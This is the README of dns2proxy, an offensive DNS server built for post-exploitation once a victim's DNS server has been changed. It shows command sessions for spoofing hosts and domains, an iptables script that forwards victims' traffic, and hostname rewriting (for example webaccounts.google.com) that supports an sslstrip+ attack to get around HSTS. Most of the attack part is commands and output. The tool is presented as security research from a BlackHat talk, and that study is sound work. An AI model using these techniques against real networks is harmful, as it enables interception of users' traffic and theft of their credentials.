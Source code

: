 dns2proxy  
=========  
  
Offensive DNS server  
  
This tools offer a different features for post-explotation once you change the DNS server to a Victim.  
  
Feature 1  
---------  
  
Traditional DNS Spoof adding to the response the original IP address.  
  
Using spoof.cfg file:  
  
   hostname ip.ip.ip.ip  
  
>root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg  
>  
>// launch in another terminal dns2proxy.py  
>  
>root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   www.s21sec.com  
>Address: 1.1.1.1  
>Name:   www.s21sec.com  
>Address: 88.84.64.30  
  
  
or you can use dominios.cfg file to spoof all host of a same domain:  
  
>root@kali:~/demoBH/dns2proxy# cat dominios.cfg  
>.domain.com 192.168.1.1  
>  
>root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   aaaa.domain.com  
>Address: 192.168.1.1  
 
Hostnames at nospoof.cfg will no be spoofed.  
  
Feature 2  
---------  
  
This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.  
Check my slides at BlackHat Asia 2014 (OFFENSIVE: EXPLOITING DNS SERVERS CHANGES).  
  
To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!  
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding  
  
Usage: ia.sh < interface > [ip1] [ip2]   
  
  
>root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230  
>Non spoofing imap.gmail.com  
>Non spoofing mail.s21sec.com  
>Non spoofing www.google.com  
>Non spoofing www.apple.com  
>Non spoofing ccgenerals.ms19.gamespy.com  
>Non spoofing master.gamespy.com  
>Non spoofing gpcm.gamespy.com  
>Non spoofing launch.gamespyarcade.com  
>Non spoofing peerchat.gamespy.com  
>Non spoofing gamestats.gamespy.com  
>Specific host spoofing www.s21sec.com with 1.1.1.1  
>Specific domain IP .domain.com with 192.168.1.1  
>binded to UDP port 53.  
>waiting requests.  
>Starting sniffing in (eth0 = 172.16.48.128)....  
>  
>< at other terminal >  
>  
>root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   www.microsoft.com  
>Address: 172.16.48.128  
>Name:   www.microsoft.com  
>Address: 172.16.48.230  
>Name:   www.microsoft.com  
>Address: 65.55.57.27  
  
  
The fhtang.sh script will terminate the program and restore normal iptables.  
  
Hostnames at nospoof.cfg will no be spoofed.  
  
  
Feature 3  
---------  
  
Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.  
  
This server is necesary to make the sslstrip+ attack.  
  
>root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com  
>Server:         127.0.0.1  
>Address:        127.0.0.1#53  
>  
>Name:   webaccounts.google.com  
>Address: 172.16.48.128  
>Name:   webaccounts.google.com  
>Address: 172.16.48.230  
>Name:   webaccounts.google.com  
>Address: 74.125.200.84  
>  
>root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like  
>Server:         127.0.0.1                                                     www.yahoo.com  
>Address:        127.0.0.1#53  
>  
>Name:   wwww.yahoo.com  
>Address: 172.16.48.128  
>Name:   wwww.yahoo.com  
>Address: 172.16.48.230  
>Name:   wwww.yahoo.com  
>Address: 68.142.243.179  
>Name:   wwww.yahoo.com  
>Address: 68.180.206.184  
  
  
Instalation  
-----------  
  
Python 2.6 and dnspython (www.dnspython.com) is needed.  
